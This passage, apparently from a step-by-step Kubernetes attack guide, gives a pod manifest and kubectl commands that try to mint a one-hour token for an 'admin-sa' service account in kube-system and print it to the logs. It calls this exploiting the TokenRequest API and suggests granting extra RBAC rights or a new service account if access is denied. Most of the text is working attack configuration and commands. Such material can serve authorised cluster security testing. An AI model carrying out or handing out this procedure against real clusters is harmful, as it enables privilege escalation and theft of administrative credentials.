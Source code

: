     ```yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: token-request-pod
      namespace: default # Place the pod in a namespace where you have create pod access
    spec:
      serviceAccountName: default #Use the SA from the previous step or create a new one
      containers:
      - name: token-request
        image: alpine/k8s:1.27.0 #Use a k8s compatible image
        command: ["/bin/sh", "-c"]
        args:
        - |
          TOKEN=$(kubectl create token admin-sa -n kube-system --duration=1h)
          echo "Token: $TOKEN"
      restartPolicy: Never
    ```

    *   **Explanation:** This YAML file defines a pod named `token-request-pod` that runs a simple command to attempt to create a `TokenRequest` for the `admin-sa` service account in the `kube-system` namespace. The duration is set to 1 hour.
    *   **Why:** This pod is the primary tool for attempting to exploit the `TokenRequest` API. It will be deployed and then the logs will be examined for errors or success.
    *   **Important**:  This pod uses `kubectl` within the container. The service account assigned to the pod (in this case, `default`) *must* have sufficient RBAC permissions to use `kubectl` inside the container. This often involves creating a Role and RoleBinding that allows the service account to `get`, `list`, `watch`, and potentially `create` other resources within the cluster. You can adjust the image with any that has `kubectl`.  Also, the `default` service account may lack create privileges for tokenrequest resources, so an alternative approach would be to create a dedicated service account that has these rights.

5.  **Deploy the Pod:**

    ```bash
    kubectl apply -f pod.yaml
    ```

    *   **Explanation:** This command deploys the pod defined in the `pod.yaml` file.
    *   **Why:** This initiates the token request attempt.
    *   **Expected Output:**  `pod/token-request-pod created`
    *   **Validation:** The pod is deployed.

6.  **Check the Pod Logs:**

    ```bash
    kubectl logs token-request-pod
    ```

    *   **Explanation:** This command retrieves the logs from the `token-request-pod`.
    *   **Why:** This is where we'll see whether the token request was successful or if an error occurred.
    *   **Expected Output:**
        *   **Successful Token Request:** The logs will display the generated token. Look for a long string of characters.
        *   **Error (RBAC Denied):** The logs will show an error message indicating that the service account associated with the pod lacks the necessary permissions to create a `TokenRequest` for the target service account.  This would show `Error from server (Forbidden): serviceaccounts "admin-sa" is forbidden: User "system:serviceaccount:default:default" cannot create tokenrequests on serviceaccounts in the serviceaccounts.k8s.io group`
    *   **Validation:** If a token is successfully generated, it confirms that the `TokenRequest` API is exploitable. If an error occurs, the RBAC configuration is likely preventing the attack in its current form. It would be necessary to create a different service account with the right roles.
